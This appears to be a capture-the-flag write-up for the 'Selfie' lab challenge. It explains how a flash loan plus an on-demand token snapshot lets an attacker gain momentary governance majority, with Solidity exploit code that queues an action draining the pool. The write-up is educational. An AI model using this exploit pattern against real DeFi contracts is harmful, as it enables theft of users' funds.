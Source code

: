 # Selfie Challenge Write-up

# Vulnerability

A user can take a flash loan for all tokens in the pool and immediately take a snapshot. This would, momentarily, give them the majority of tokens which they can use to propose an action in the governance contract. This action will be approved since it is based on the snapshot taken right after the flash loan, even though the user no longer holds a majority of tokens after returning the loan.

`SimpleGovernance`.- This governance contract allows token holders to propose and execute actions. However, an interesting point is that the system checks a token holder's balance at the last snapshot of token balances taken, rather than at the exact moment of proposing an action.

Part of the problem is that anyone can trigger these snapshots by calling the snapshot function on the token contract.

By taking a flash loan of all tokens in the pool and immediately triggering a snapshot, a user can momentarily control the majority of tokens.

# AttackSelfie in action

It requests a flash loan for the maximum amount of tokens available in the pool.

```solidity
function attack() public {
    uint256 amountToBorrow = pool.maxFlashLoan(address(governanceToken));
    pool.flashLoan(
        IERC3156FlashBorrower(this),
        address(pool.token()),
        amountToBorrow,
        ""
    );
}
```

Upon receiving the tokens, it takes a `snapshot` and queues an action to call the `emergencyExit` function on the pool, transferring all tokens to the attacker's address.

```solidity
function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata
) external returns (bytes32) {
    governanceToken.snapshot();  // Snapshot taken here
    pool.governance().queueAction(
        address(pool),
        0,
        abi.encodeWithSignature("emergencyExit(address)", owner)
    );
    governanceToken.approve(address(pool), amount);
    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

```solidity
function emergencyExit(address receiver) external onlyGovernance {
    uint256 amount = token.balanceOf(address(this));
    token.transfer(receiver, amount);

    emit FundsDrained(receiver, amount);
}
```

After a certain delay, the action is executed, draining all funds from the pool to the attacker's address.

```solidity
function flashLoan(
    IERC3156FlashBorrower _receiver,
    address _token,
    uint256 _amount,
    bytes calldata _data
) external nonReentrant returns (bool) {
    if (_token != address(token))
        revert UnsupportedCurrency();

    // Transfer the requested loan amount to the borrower
    token.transfer(address(_receiver), _amount);

    // At this point, _receiver (the borrower) temporarily has the borrowed tokens.
    // If the _receiver is a malicious contract (like AttackSelfie), it can use these tokens to create a snapshot.
    // In that snapshot, the _receiver holds a large portion (or even all) of the tokens, giving it significant voting power in the governance system.

    // The loaned amount is expected to be returned by the end of this function call
    if (_receiver.onFlashLoan(msg.sender, _token, _amount, 0, _data) != CALLBACK_SUCCESS)
        revert CallbackFailed();

    // After the onFlashLoan call, the loaned amount should be returned to this contract.
    // If not, it's a failed repayment and the transaction is reverted.
    if (!token.transferFrom(address(_receiver), address(this), _amount))
        revert RepayFailed();

    return true;
}
```
